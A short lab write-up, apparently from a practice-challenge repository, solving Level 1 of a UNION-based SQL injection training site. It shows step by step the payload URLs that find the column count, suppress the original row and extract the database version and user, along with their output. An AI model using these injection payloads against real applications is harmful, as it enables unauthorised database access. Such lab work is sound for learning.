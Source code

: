 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

## [Level 1](https://zixem.altervista.org/SQLi/level1.php?id=1)
Start: `https://zixem.altervista.org/SQLi/level1.php?id=1`\
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:\
`SELECT * FROM <db> WHERE id=1`
=> We should add `UNION SELECT 1,2;--`\

###### Result:\ ######
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns**Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist.\

###### Result:\ ######
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.\

###### Result:\ ######
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:\

###### Result:\ ######
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**\
###### END ######
